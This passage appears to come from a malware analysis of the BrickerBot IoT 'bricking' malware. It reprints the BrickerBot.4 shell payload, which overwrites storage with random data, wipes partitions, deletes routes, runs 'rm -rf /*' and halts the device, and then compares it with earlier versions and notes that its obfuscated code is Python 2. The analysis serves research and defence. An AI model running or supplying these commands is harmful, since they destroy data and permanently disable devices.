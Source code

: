 BrickerBot.4
```bash
fdisk -l
busybox cat /dev/urandom >/dev/mtdblock0 &
busybox cat /dev/urandom >/dev/sda &
busybox cat /dev/urandom >/dev/mtdblock10 &
busybox cat /dev/urandom >/dev/mmc0 &
busybox cat /dev/urandom >/dev/sdb &
busybox cat /dev/urandom >/dev/ram0 &
fdisk -C 1 -H 1 -S 1 /dev/mtd0
w
fdisk -C 1 -H 1 -S 1 /dev/mtd1
w
fdisk -C 1 -H 1 -S 1 /dev/sda
w
fdisk -C 1 -H 1 -S 1 /dev/mtdblock0
w
route del default;iproute del default;ip route del default;rm -rf /* 2>/dev/null &
sysctl -w net.ipv4.tcp_timestamps=0;sysctl -w kernel.threads-max=1
halt -n -f
reboot
```

The obfuscated code appears to match BrickerBot.3, matching the payload for Dahua devices (default credentials root/vizxv, mentioned in an article) and HiLinux OS's. Compared to BrickerBot.1, it shows slightly updated payloads. Compared to BrickerBot.2, it again shows slightly updated brick commands for a general Linux target. BrickerBot.4 shows identical payloads to BrickerBot.1 in the article: based on Radware's versioning, the payload in BrickerBot.4 appears to have been scaled back after version 3.

The difference in BrickerBot.4 command sequences versus BrickerBot.3 shows the .4 version removed several `cat /dev/urandom >/dev/...` commands used to brick the target device, returning to the set of commands seen in BrickerBot.1. There is no clear reason why a later version would remove such commands as they should not cause traps for the code, and therefore the terminal on the target host, to hang on. Having more of those lines would seem to only increase the probability that enough chaos was pushed to the target device in order to brick it, rather than slow it down negligibly.

Perhaps the shorter set of commands was just sufficient to brick the device. Or the payload may have been reduced to match the device files exactly on the target device.

It is also possible the BrickerBot.4 wave that was caught by Radware's honeypots was simply a repeat of BrickerBot.1. Radware may also have other command sequences that differentiate between BrickerBot.1 and BrickerBot.4 to which we are not privy. In any case, it is difficult to make that differentiation with the limited information available.

### Obfuscated code is written for Python 2.

The code is written to be used by Python 2. There is a single print statement which must be run in Python 2:

```python
print "Debug: Skipping sock close due to keepalive"
```

In contrast, print statements in Python 3 require parentheses:
